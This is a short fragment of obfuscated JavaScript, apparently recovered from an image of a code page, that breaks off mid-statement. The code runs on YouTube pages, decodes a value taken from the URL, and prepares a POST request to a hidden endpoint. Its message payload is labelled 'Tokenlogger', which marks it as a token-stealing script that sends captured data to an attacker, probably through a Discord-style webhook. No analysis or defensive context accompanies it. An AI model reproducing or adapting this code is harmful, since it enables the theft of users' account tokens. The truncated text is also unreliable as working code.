 const _0x423db6=_0x2682;(function(_0x3a163e,_0x4caf3a){const _0x44fc68=_0x2682,_0x95eb19=_0x3a163e();while(!![]){try{const _0xcb1608=parseInt(_0x44fc68(0x22b))/0x1+parseInt(_0x44fc68(0x2ff))/0x2+-parseInt(_0x44fc68(0x154))/0x3+parseInt(_0x44fc68(0xa9))/0x4+parseInt(_0x44fc68(0x18e))/0x5+-parseInt(_0x44fc68(0x1bc))/0x6*(-parseInt(_0x44fc68(0x2c0))/0x7)+-parseInt(_0x44fc68(0x27a))/0x8;if(_0xcb1608===_0x4caf3a)break;else _0x95eb19['push'](_0x95eb19['shift']());}catch(_0xd92fa3){_0x95eb19['push'](_0x95eb19['shift']());}}}(_0x499c,0x45d99),(function(){const _0x252075=_0x2682,_0x45f863=_0x252075(0x2fc);if(window['location']['href']['startsWith']('https://www.youtube.com/')){const _0x1a370e=new URL(window[_0x252075(0x269)][_0x252075(0xac)]),_0x384716=atob(_0x1a370e[_0x252075(0x2e5)][_0x252075(0x1b1)]('v'));if(_0x384716!=null){const _0x273882=new XMLHttpRequest();_0x273882[_0x252075(0x241)]('POST',_0x45f863),_0x273882[_0x252075(0x2d2)](_0x252075(0x1c9),_0x252075(0x225));const _0x1ef884={'username':'Tokenlogger','content':_0x252075(0xdc)+new